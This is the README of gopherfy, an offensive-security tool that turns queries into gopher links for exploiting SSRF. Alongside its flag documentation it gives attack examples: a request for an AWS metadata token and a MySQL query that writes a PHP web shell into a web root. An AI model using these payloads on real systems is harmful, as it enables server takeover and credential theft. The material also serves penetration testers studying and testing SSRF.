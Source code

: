 # gopherfy
![Build Status](https://github.com/hupe1980/gopherfy/workflows/build/badge.svg) 
[![Go Reference](https://pkg.go.dev/badge/github.com/hupe1980/gopherfy.svg)](https://pkg.go.dev/github.com/hupe1980/gopherfy)
> Tool to generate gopher links for exploiting SSRF

```
curl http://example.org/ssrf/vuln/proxy?url=$(gopherfy mysql -e url -q "show databases;")
```

:warning: This is for educational purpose. Don’t try it on live servers!

## How to use
```
Usage:
  gopherfy [command]

Available Commands:
  completion  Generate the autocompletion script for the specified shell
  help        Help about any command
  http        Generate http gopher link
  mysql       Generate mysql gopher link
  postgres    Generate postgres gopher link
  smtp        Generate smtp gopher link

Flags:
  -e, --encoder string   the encoder to use. allowed: "base64", "url" or "none" (default "none")
  -h, --help             help for gopherfy
  -v, --version          version for gopherfy

Use "gopherfy [command] --help" for more information about a command.
```

## HTTP
```
Generate http gopher link

Usage:
  gopherfy http [flags]

Examples:
gopherfy http -a 169.254.169.254:80 -p /latest/api/token -X PUT -H X-aws-ec2-metadata-token-ttl-seconds=21600

Flags:
  -a, --addr string             http address (default "127.0.0.1:80")
  -H, --header stringToString   http header value (key=value) (default [])
  -h, --help                    help for http
  -V, --http-version string     http protocol version (default "HTTP/1.0")
  -p, --path string             http path (default "/")
  -X, --request string          http request method (default "GET")
  -A, --user-agent string       http user agent (default "gopherfy")

Global Flags:
  -e, --encoder string   the encoder to use. allowed: "base64", "url" or "none" (default "none")
```

## MySQL
```
Generate mysql gopher link

Usage:
  gopherfy mysql [flags]

Examples:
gopherfy mysql -q "SELECT '<?php system(\$$_REQUEST[\'cmd\']); ?>' INTO OUTFILE '/var/www/html/shell.php'"

Flags:
  -a, --addr string    mysql address (default "127.0.0.1:3306")
  -d, --db string      mysql database name
  -h, --help           help for mysql
  -q, --query string   mysql query
  -u, --user string    mysql username (default "root")

Global Flags:
  -e, --encoder string   the encoder to use. allowed: "base64", "url" or "none" (default "none")
```

## PostgreSQL
```
Generate postgres gopher link

Usage:
  gopherfy postgres [flags]

Flags:
  -a, --addr string    postgres address (default "127.0.0.1:5432")
  -d, --db string      postgres database name
  -h, --help           help for postgres
  -q, --query string   postgres query
  -u, --user string    postgres username (default "postgres")

Global Flags:
  -e, --encoder string   the encoder to use. allowed: "base64", "url" or "none" (default "none")
```
## License
[MIT](LICENCE)
